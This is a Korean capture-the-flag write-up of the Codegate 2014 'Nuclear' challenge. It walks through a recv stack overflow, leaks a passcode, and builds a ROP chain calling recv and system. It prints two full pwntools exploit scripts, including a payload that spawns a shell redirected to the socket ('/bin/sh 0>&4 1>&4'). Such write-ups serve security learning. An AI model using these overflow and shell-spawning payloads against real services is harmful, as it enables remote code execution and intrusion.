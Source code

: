 # Codegate 2014 Nuclear 풀이

문제 요약 : passcode를 leak한 다음 recv를 이용한 overflow를 요구하는 문제



먼저 공격 벡터를 찾아보기로 했다.

sub_8048B9C에 pthread_create에 인자인 start_routine 함수를 보면



![nuclear](.\rsrc\nuclear_0.jpg)



분명히 buf는 524 바이트가 할당되어 있는데,  recv로 할당하는 크기는 0x512 즉 1298 바이트를 할당한다. 이 부분에서 stack overflow가 일어남을 알 수 있다.



근데 한 가지 문제가 있었다.



![nuclear](.\rsrc\nuclear_1.jpg)



launch를 하면 passcode를 입력해아하는데, 이 passcode는 THIS_IS_NOT_KEY_JUST_PASSCODE라는 파일을 읽어서 저장된 값이다.  근데 이 파일은 내가 만들었긴하지만 모른다는 가정하에 PASSCODE를 구하려면 어딘가에서 leak을 해야했다.



![nuclear](.\rsrc\nuclear_2.jpg)



leak 하기 전 스택의 상황을 살펴보니

| ret | sfp | newthread | str | v4 | v5 | passcode | v7 | *stream|으로 이루어진 것을 알 수 있다.

그리고 위를 바탕으로 leak을 할 수 있는 함수를 찾았더니



![nuclear](.\rsrc\nuclear_3.jpg)



아마 이것이 leak을 위한 함수 같다. 근데 이것만 이용하면 str을 다 채운다고 해도 v4, v5에 가로막혀 passcode의 값을 빼기는 힘들다.

그래서 v4, v5에 있을 NULL을 없애기 위한 방법을 찾아보았다.



![nuclear](.\rsrc\nuclear_4.jpg)

 

target이란 명령어를 입력하면 %f/%f로 v5와 &v4에 값을 채워넣는데 이 부분의 NULL을 없애면 아마 passcode를 leak할 수 있을 듯 하다.



이를 바탕으로 leak하는 함수를 짜보았다.

```python
from pwn import *

r = remote("localhost", 1129)

r.recvuntil("> ")
r.sendline("target")
r.recvuntil("---> ")
r.sendline("123.456798/123.456789") # v4와 v5의 값을 채워줌
r.recvuntil("> ")
r.sendline("A"*516)
r.recv(0x21e) # garbage 값 버리기
passcode = r.recv(1024)
print "[*] passcode : " + passcode
```



이를 실행해보면



![nuclear](.\rsrc\nuclear_5.jpg)



와~ passcode가 passcode였다. ㅋ



이제 launch 메뉴에서 passcode를 입력하고 공격 벡터를 공격하면 되겠다.

먼저 어떤 보호기법이 걸려있나 살펴보기로 한다.



![nuclear](.\rsrc\nuclear_6.jpg)



NX만 걸려있다. 그러면 일단 쉘코드 문제는 아니니깐 ROP를 하면 되겠다.

근데 plt를 구할 때, 나는 ELF를 이용하여 구했는데 이게 제대로 된 값이 아니었다... ㅠㅠ

그래서 어짜피 서버는 계속 똑같은 값을 가지고 있을 것이니깐 디버깅을 통해 함수 주소를 구해온 후  익스를 하기로 했다.



![nuclear](.\rsrc\nuclear_7.jpg)



이젠 그냥 이 주소를 가지고 rop를 때리면??



```python
from pwn import *
import time

binary = "./nuclear"
libc = "/lib/i386-linux-gnu/libc-2.23.so"

#context.log_level = "debug"

r = remote('localhost', 1129)
e = ELF(binary)

#time.sleep(10) # 디버깅을 위한 sleep

ppppr = 0x804917c
bss = e.bss()
recv = 0xf76b3340
system = 0xf7528da0

r.recvuntil("> ")
r.sendline("launch")
r.recvuntil(": ")
r.sendline("passcode")
r.recvuntil("COUNT DOWN : 100")

print "[*] gadget addr : " + hex(ppppr)
print "[*] bss addr : " + hex(bss)
print "[*] recv addr : " + hex(recv)
print "[*] system addr : " + hex(system)

payload = "A" * 528
payload += p32(recv)
payload += p32(ppppr)
payload += p32(4)
payload += p32(bss)
payload += p32(len("/bin/sh 0>&4 1>&4") + 1)
payload += p32(0)

payload += p32(system)
payload += "ABCD"
payload += p32(bss)

r.sendline(payload)
r.recv(1024)
r.sendline("/bin/sh 0>&4 1>&4")  # 그냥 /bin/sh 때리면 서버에서 처리됨
r.recv(1024)
r.interactive()
r.close()
```



이러면??



![nuclear](.\rsrc\nuclear_8.jpg)



성공!!!